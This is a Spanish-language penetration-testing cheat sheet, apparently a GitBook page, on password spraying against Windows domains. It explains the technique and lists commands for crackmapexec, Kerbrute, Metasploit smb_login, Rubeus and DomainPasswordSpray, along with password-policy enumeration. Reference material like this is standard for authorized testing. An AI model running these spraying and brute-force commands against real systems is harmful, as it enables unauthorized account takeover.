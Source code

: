 # Password Spraying

## Qué es?

El <mark style="color:green;">Password Spraying</mark> es una técnica de ataque cibernético que consiste en probar una sola contraseña común o débil contra una gran cantidad de nombres de usuario. A diferencia de otros métodos de ataque de fuerza bruta que prueban muchas contraseñas en un solo usuario, el password spraying aplica una contraseña (generalmente una conocida por ser comúnmente utilizada o fácil de adivinar) en muchos usuarios. Esta técnica es efectiva en eludir políticas de bloqueo de cuentas que se activan tras varios intentos fallidos de acceso, ya que el ataque no supera el límite de intentos fallidos para un solo usuario. Es comúnmente utilizada en ataques contra sistemas de autenticación en línea, como interfaces de correo electrónico o servicios basados en la nube.

## Comandos

### Crackmapexe

```bash
crackmapexec smb 192.168.1.101 -u user1 user2 user3 -p Summer18
crackmapexec smb 192.168.1.101 -u user1 -p password1 password2 password3

crackmapexec smb 192.168.1.101 -u /path/to/users.txt -p Summer18
crackmapexec smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

### Política de contraseñas

```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10; 
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```

### Kerbrute - Linux

{% code overflow="wrap" %}
```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123

# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
{% endcode %}

{% embed url="https://github.com/ropnop/kerbrute" %}

### Metasploit

<pre><code><strong>use scanner/smb/smb_login
</strong></code></pre>

<figure><img src="https://1517081779-files.gitbook.io/~/files/v0/b/gitbook-legacy-files/o/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-Lro8N5HY_Bsuc0kb_bC%2F-Lro9ANRKPcKS1wbCybd%2Fimage.png?alt=media&#x26;token=515958d7-0358-4c1f-ba46-b3cd38f0ff1e" alt=""><figcaption></figcaption></figure>

### Rubeus - Windows

{% code overflow="wrap" %}
```powershell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```
{% endcode %}

{% embed url="https://github.com/GhostPack/Rubeus" %}

### DomainPasswordSpray - windows

{% code overflow="wrap" %}
```powershell
Invoke-DomainPasswordSpray -UserList .\users.txt -Password 123456 -Verbose
```
{% endcode %}



## Referencias

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying" %}

{% embed url="https://www.crackmapexec.wiki/smb-protocol/password-spraying" %}



